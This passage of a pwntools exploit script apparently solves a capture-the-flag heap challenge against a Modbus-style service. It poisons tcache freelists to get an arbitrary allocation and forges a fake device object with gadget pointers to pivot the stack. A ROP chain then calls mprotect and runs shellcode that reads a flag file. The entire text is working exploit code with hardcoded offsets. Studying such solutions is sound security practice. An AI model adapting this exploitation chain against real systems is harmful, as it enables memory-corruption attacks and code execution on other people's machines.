    chunk1 = heap_base + 0x2d85e0
    chunk2 = heap_base + 0x2d8680
    target = heap_base + 0x84730

    # 0x70 chunk
    payload = b"\x00"*(0x68-3) + p64(0xa1)
    payload += p64(0^(chunk1>>12))
    payload = payload.ljust(0x78*2, b"\x00")
    mb_write_regs(0xff90-1, 0x78, payload)
    rv(8)
    payload = b"\x00"*(0x98-3) + p64(0xa1)
    payload += p64(0^(chunk2>>12))
    payload = payload.ljust(0x78*2, b"\x00")
    mb_write_regs(0xff90+0x38-1, 0x78, payload)
    rv(8)

    mb_read_regs(0xff90-1, 0x160//2) # malloc(0x65) -> chunk0
    mb_read_regs(0, 0xa0//2) # malloc(0xa5) -> chunk2 -> chunk2 into 0xa0 tcache

    # 0x70 chunk
    pause()
    payload = b"\x00"*(0x68-3) + p64(0xb1)
    payload += p64(0^(chunk1>>12))
    payload = payload.ljust(0x78*2, b"\x00")
    mb_write_regs(0xff90-1, 0x78, payload)
    rv(8)
    payload = b"\x00"*(0x98-3) + p64(0xb1)
    payload += p64(target^(chunk2>>12))
    payload = payload.ljust(0x78*2, b"\x00")
    mb_write_regs(0xff90+0x38-1, 0x78, payload)
    rv(8)

    mb_read_regs(0xff90-1, 0x160//2) # malloc(0x65) -> chunk0
    mb_read_regs(0, 0x90//2) # malloc(0x95) -> chunk2 -> chunk2 into 0xb0 tcache; target into 0xa0 tcache
    
    syscall = libc_base + 0x0000000000098FB6
    prdi = libc_base + 0x000000000010f78b
    prsi = libc_base + 0x0000000000110a7d
    prdx = elf_base + 0x00000000006fe3f6
    prcx = libc_base + 0x00000000000a877e
    prax = libc_base + 0x00000000000dd237

    buf_addr = heap_base + 0x83c30 + 0x10
    tmp_addr = heap_base + 0x2f000

    rop = p64(prdi) + p64((buf_addr>>16)<<16)
    rop += p64(prsi) + p64(0x10000)
    rop += p64(prdx) + p64(7)
    rop += p64(prax) + p64(constants.SYS_mprotect)
    rop += p64(syscall)
    rop += p64(buf_addr+len(rop)+8) # shellcode addr

    sc = ""
    sc += shellcraft.open('flag')
    #sc += shellcraft.read('rax', tmp_addr, 0x100)
    #sc += shellcraft.write(10, target, 0x100)
    sc += f'''
        mov rdi, rax
        mov rsi, {tmp_addr}
        mov rdx, 0x100
        mov rax, {constants.SYS_read}
        syscall

        mov rdi, 0xa
        mov rsi, {tmp_addr}
        mov rdx, 0x100
        mov rax, {constants.SYS_write}
        syscall
    '''

    payload = b"\x00"*(0x10-3) + rop + asm(sc)
    lg("len", len(payload))
    payload = payload.ljust(0x78*2, b"\x00")
    mb_write_regs(0, 0x78, payload)
    mb_read_regs(0, 0xf0//2) # malloc(0xf5) -> 0x100 chunk

    gg1 = libc_base + 0x0000000000176f3e # mov rdx, qword ptr [rax + 0x38] ; mov rdi, rax ; call qword ptr [rdx + 0x20]
    gg2 = libc_base + 0x000000000005ef6f # mov rsp, rdx ; ret
    gg3 = libc_base + 0x0000000000044d31 # add rsp, 0x10 ; pop rbx ; pop r12 ; pop rbp ; ret
    prbp = libc_base + 0x0000000000028a91
    leave = libc_base + 0x00000000000299d2
    
    # fake DevClass
    payload = b"\x00"*(0x18-3)
    payload += p64(0x401)
    payload = payload.ljust(0x38-3, b"\x00")
    payload += p64(target+0x40) #rdx
    payload += p64(gg3)
    payload = payload.ljust(0x40+0x20-3, b"\x00")
    payload += p64(gg2)
    payload += p64(0)
    # rop
    payload += p64(prbp) + p64(buf_addr-8)
    payload += p64(leave)
    payload = payload.ljust(0xb8-3, b"\x00")
    payload += p64(heap_base+0x2d5960)
    payload += p64(elf_base+0x40f6b6) # mbc_fd_event_40F6B6
    payload += p64(gg1) # mbc_fd_can_read_40F5BB
    payload += p64(elf_base+0x40f5e9) # mbc_receive_40F5E9
    payload += p64(0)
    payload += p64(target) # rax/rdi
    payload += p64(0x100000000) + p8(1)
    payload = payload.ljust(0x78*2, b"\x00")
    mb_write_regs(0, 0x78, payload)
    mb_read_regs(0, 0x190//2) # malloc(0x95) -> 0xa0 chunk

    p.interactive()
```

